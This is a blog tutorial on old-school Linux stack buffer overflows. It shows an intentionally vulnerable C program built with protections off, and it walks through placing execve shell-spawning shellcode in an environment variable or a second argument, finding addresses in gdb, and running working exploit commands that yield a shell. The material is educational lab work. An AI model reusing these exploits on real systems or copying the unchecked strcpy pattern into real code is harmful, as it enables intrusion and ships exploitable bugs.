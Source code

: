 ```yaml
---
layout: post
title: "Buffer overflow - other places to put shellcode"
date: 2020-01-03
tags: [security, linux, programming, vulnerabilities]
---
```


Other places to put shellcode
------------------------------

Continuing with old school exploitation, we'll look at a few variations of shellcode injection.

### Shellcode in an environment variable

Consider the program below:

```c
/*
 * bo_vuln2.c
 * gcc bo_vuln2.c -zexecstack -fno-stack-protector -g -o bo_vuln2
 */

#include <string.h>

void cp(char *s)
{
    char input[8];
    strcpy(input, s);
}

int main(int argc, char *argv[])
{
    if (argc > 1)
        cp(argv[1]);
    return 0;
}
```

> Note that we are still disabling security measures during compilation, and that ASLR needs to be turned off if you want to follow along.

Can this tiny buffer be exploited?

You might think that we can do something like the following:

```
| 8  a's | 8 b's | ret | 50 NOP's | shellcode |
```

Fill buffer, overwrite saved frame pointer, overwrite ret to point to NOP-sled and then follow with our NOP-sled and shellcode. This is not possible because:

- We can't have null bytes in the command line argument since the argv's strings are null-terminated.
- `strcpy` will stop writing after encountering a null byte.

Our shellcode is NULL-free, but ret is not. ret is "0x00007fff..." and the only reason we succeeded modifying it correctly in the earlier example was that ret was the last part of our input string and the stack already contained the necessary null bytes as part of the previous ret address that we overwrote.

> Some programs can be exploited without worrying about null bytes, as we will see later.

But there's a simple solution that will allow us to exploit this tiny buffer to execute a shell, putting the shellcode in an enviroment variable.

Launch gdb with shellcode in an environment variable:

```bash
env - MYSH=`python -c 'print "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'` gdb bo_vuln2
(gdb) unset env LINES
(gdb) unset env COLUMNS
```

Find the address of the shellcode:

```bash
(gdb) b main
Breakpoint 1 at 0x401157: file bo_vuln2.c, line 16.
(gdb) r
Breakpoint 1, main (argc=1, argv=0x7fffffffed58) at bo_vuln2.c:16
...
(gdb) x/s *(char **)environ
0x7fffffffef7a: "PWD=/my/current/working/directory"
(gdb) <PRESS RETURN>
0x7fffffffef9f: "MYSH=H1\322H\273\377/bin/shH\301\353\bSH\211\347H1\300PWH\211\346\260;\017\005"
```

> Tip: you can use the gdb `start` command to run the program with a temporary breakpoint at the beginning of main.

The environment variable contains "MYSH=", so we need to add 5 bytes to the address to skip past that part: 0x7fffffffefa4.

Now we can exploit the program in gdb using:

```
(gdb) d
(gdb) r `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\xa4"[::-1]'`
...
process 18513 is executing new program: /usr/bin/bash
sh-4.4$
```

> Tip: Python helps us little-endian (reverse) the address bytes by using `[::-1]`.

And in the terminal:

```
$ env - PWD=$PWD MYSH=`python -c 'print "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'` SHLVL=0 $PWD/bo_vuln2 `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\xa4"[::-1]'`
sh-4.4$
```

Note that `$PWD` is set first, `$SHLVL` is set last, and that `$PWD` is used in front of the program to execute it with full path. Also note that our input length does not affect the location of the environment variable, so we don't need to take this into consideration.

> Tip: A huge NOP-sled in front of the shellcode can make *guessing* the correct address easier.

### Shellcode in command line argument *n*

Another option for exploiting the above program is putting the shellcode in the second command line argument and using the first command line argument to fill the buffer and overwrite ret.

Run the program in gdb using exploit code with dummy ret, break before cp returns to prevent a crash:

```bash
$ env - gdb bo_vuln2
(gdb) unset env LINES
(gdb) unset env COLUMNS
(gdb) disas cp
...
   0x0000000000401140 <+26>:    callq  0x401030 <strcpy@plt>
   0x0000000000401145 <+31>:    nop
...
(gdb) b *cp+31
(gdb) r `python -c 'print 16 * "a" + "bbbbbbbb" + " " + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'`
```

Note the space (" ") separating the arguments. To find the address of the second argument, we can look at the bytes before `environ`:

```
(gdb) x/64xb *(char **)environ-64
0x7fffffffef61: 0x75    0x6c    0x6e    0x32    0x00    0x61    0x61    0x61
0x7fffffffef69: 0x61    0x61    0x61    0x61    0x61    0x61    0x61    0x61
0x7fffffffef71: 0x61    0x61    0x61    0x61    0x61    0x62    0x62    0x62
0x7fffffffef79: 0x62    0x62    0x62    0x62    0x62    0x00    0x48    0x31
0x7fffffffef81: 0xd2    0x48    0xbb    0xff    0x2f    0x62    0x69    0x6e
0x7fffffffef89: 0x2f    0x73    0x68    0x48    0xc1    0xeb    0x08    0x53
0x7fffffffef91: 0x48    0x89    0xe7    0x48    0x31    0xc0    0x50    0x57
0x7fffffffef99: 0x48    0x89    0xe6    0xb0    0x3b    0x0f    0x05    0x00
```

> `environ` is on the stack before `argv`.

The shellcode starts after the b's and NUL, at 0x7fffffffef7f.

> Since the progam is compiled with debugging information (`-g`), `p argv` shows the *address of the address* to the command line arguments. You can view strings stored at the address with `x/`*N*`s *argv` or by using `p argv[`*N*`]`.

Exploiting in gdb using the correct address:

```bash
$ env - gdb bo_vuln2
(gdb) r `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\x7f"[::-1] + " " + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'`
process 17211 is executing new program: /usr/bin/bash
sh-4.4$
```

And in the terminal:

```bash
$ env - PWD=$PWD SHLVL=0 $PWD/bo_vuln2 `python -c 'print 16 * "a" + "\x7f\xff\xff\xff\xef\x7f"[::-1] + " " + "\x48\x31\xd2\x48\xbb\xff\x2f\x62\x69\x6e\x2f\x73\x68\x48\xc1\xeb\x08\x53\x48\x89\xe7\x48\x31\xc0\x50\x57\x48\x89\xe6\xb0\x3b\x0f\x05"'`
sh-4.4$
```


